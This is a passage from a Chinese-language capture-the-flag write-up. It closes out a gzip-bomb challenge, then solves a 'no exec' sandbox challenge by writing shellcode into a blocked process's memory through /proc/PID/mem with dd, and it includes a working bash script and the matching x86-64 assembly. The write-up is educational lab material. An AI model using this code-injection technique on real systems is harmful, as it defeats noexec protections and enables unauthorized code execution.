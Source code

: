 ```
...
3701759 MB passed.
3702271 MB passed.
flag{m0re_GZIP_fi1e_b0mB}
```

提交，成功！



## 禁止执行，启动

首先猜想禁止执行并非修改内核实现，输入 mount 命令检查一下：

```
rootfs on / type rootfs (ro,size=216072k,nr_inodes=54018)
dev on /dev type devtmpfs (rw,nosuid,noexec,relatime,size=216072k,nr_inodes=54018,mode=755)
proc on /proc type proc (rw,nosuid,noexec,relatime)
sys on /sys type sysfs (rw,nosuid,noexec,relatime)
tmp on /tmp type tmpfs (rw,nosuid,noexec,relatime)
home on /home type ramfs (rw,nosuid,noexec,relatime)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,mode=600,ptmxmode=000)
```

所有条目要么指定了 ro 选项拒绝写入，要么指定了  noexec 选项不能加载执行，但好在其中包括 /proc 文件系统，故不难构造一个靶进程阻塞于某系统调用上，借助 /proc/$PID/syscall 得知用户空间的 PC，然后用 dd 向该位置注入获取 flag 的代码，最后解除阻塞，执行代码输出 flag。一个方便控制阻塞和解除阻塞的实现方案是使用 mkfifo 创建一个具名管道，然后对其执行 cat 操作，cat 进程将阻塞在 open 系统调用上，直至有写进程打开这个 fifo。

```bash
cd
rm -f fifo
mkfifo fifo
cat fifo &
PID=$!
ADDR=$(cat /proc/${PID}/syscall | awk '{print $9}' | xargs printf %d)
echo ${PID} ${ADDR}
echo -ne '\xb8\x24\x02\x00\x00\x31\xff\x48\x8d\xb4\x24\x00\xfc\xff\xff\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\x8d\xb4\x24\x00\xfc\xff\xff\xba\x00\x04\x00\x00\x0f\x05\xb8\xe7\x00\x00\x00\x31\xff\x0f\x05' | dd bs=1 seek=${ADDR} of=/proc/${PID}/mem conv=notrunc
echo -n 'Press ENTER to continue. '
read INPUT
echo 1 > fifo
```

上面代码中的二进制字符对应以下汇编：

```assembly
	.globl	_start
_start:
	movl $548, %eax          # __NR_get_flag
	xorl %edi, %edi          # id = 0
	leaq -0x400(%rsp), %rsi  # buf
	syscall
	movl $1, %eax            # __NR_write
	movl $1, %edi            # fd = 1
	leaq -0x400(%rsp), %rsi  # buf
	movl $0x400, %edx        # count
	syscall
	movl $231, %eax          # __NR_exit_group
	xorl %edi, %edi          # status = 0
	syscall
```

